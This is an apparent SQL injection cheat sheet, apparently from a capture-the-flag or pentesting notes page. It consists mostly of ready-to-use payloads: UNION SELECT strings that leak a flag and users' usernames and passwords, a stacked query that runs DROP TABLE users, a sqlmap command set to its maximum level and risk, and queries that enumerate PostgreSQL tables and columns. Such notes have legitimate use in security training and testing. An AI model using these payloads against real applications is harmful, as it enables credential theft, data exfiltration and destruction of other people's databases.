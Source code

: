 ```sql
')) UNION ALL SELECT 1, flag, '', 1 FROM app.targetTable -- -
```

Used to append another SELECT and leak data:

```sql
' UNION SELECT 1, username, password FROM users --
```

Use `ORDER BY` to find number of columns.

---

## 🧱 Stacked Queries

How Stacked Queries Work

Normally, SQL queries sent to a database are supposed to be single, complete commands.
But if an application is vulnerable and does not properly sanitize input, an attacker might inject something like:

- ; separates two queries.

- The first query runs and returns something.

- Then the second query executes and deletes the users table.

Execute multiple queries in one request (supported in PostgreSQL, MSSQL):

```sql
'; SELECT user(); DROP TABLE users; --
```

---

## Optional

if allowed

```shell
sqlmap -u "http://example.com/page.php?id=1" --level=5 --risk=3 --batch --dbs
```

It can test all types: error-based, boolean-based, time-based — and auto-detect the backend.

show all tables

```sql
target';select * from pg_tables-- -
```

PostgreSQL stores all table metadata in the pg_tables system view.

```sql
target; SELECT tablename FROM pg_tables WHERE schemaname='public'; --
```

Once you've identified a suspicious table (e.g., table), inspect its columns with:

```sql
target; SELECT column_name FROM information_schema.columns WHERE table_name='table'; --
```
